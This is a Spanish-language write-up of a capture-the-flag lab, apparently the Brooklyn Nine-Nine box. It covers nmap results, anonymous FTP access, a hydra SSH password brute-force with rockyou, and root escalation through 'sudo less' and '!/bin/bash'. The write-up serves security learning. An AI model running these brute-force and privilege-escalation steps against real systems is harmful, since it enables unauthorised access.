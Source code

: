 ### namp
```python 
PORT     STATE    SERVICE      VERSION
21/tcp   open     ftp          vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.203.6
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
22/tcp   open     ssh          OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 16:7f:2f:fe:0f:ba:98:77:7d:6d:3e:b6:25:72:c6:a3 (RSA)
|   256 2e:3b:61:59:4b:c4:29:b5:e8:58:39:6f:6f:e9:9b:ee (ECDSA)
|_  256 ab:16:2e:79:20:3c:9b:0a:01:9c:8c:44:26:01:58:04 (ED25519)
80/tcp   open     http         Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
1002/tcp filtered windows-icfw
1057/tcp filtered startron
2135/tcp filtered gris
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

### puerto 21 ftp abierto y missconfigure con anonymous

tenemos un archivo
```css 
	From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine

```
este archivo nos da 3 usuarios 
```java
	Username: Amy
	Username: Jake
	Username: holt
```

### aplicamos fuerza bruta con hydra 
```python
hydra -l jake -P /usr/share/wordlists/rockyou.txt ssh
```
![[Pasted image 20231107001617.png]]
### ingresamos por ssh con las credenciales que hemos conseguido
![[Pasted image 20231107002238.png]]
en la rita /home/holt podemo conseguir la flag user.txt

### vamos a escalar privilegios
buscaremos permisos SUID
```java 
	find / -perm -u=s -type f 2>/dev/null
```
podemos ver un direcctorio /usr/bin/less hacemos sudo -l
![[Pasted image 20231107005512.png]]

### el usuario jake puede ejecutar todo con lo que quiera con (ALL) /usr/bin/less con el directorio less sin proporcionar contraseña NOPASSWD

```python 
	sudo less /etc/profile
```
debido a que podemos ejecutar less como sudo. podemos crear un archivo de texto y seguido de esto podemos decirle
```python
	!/bin/bash
```
esto nos hace root
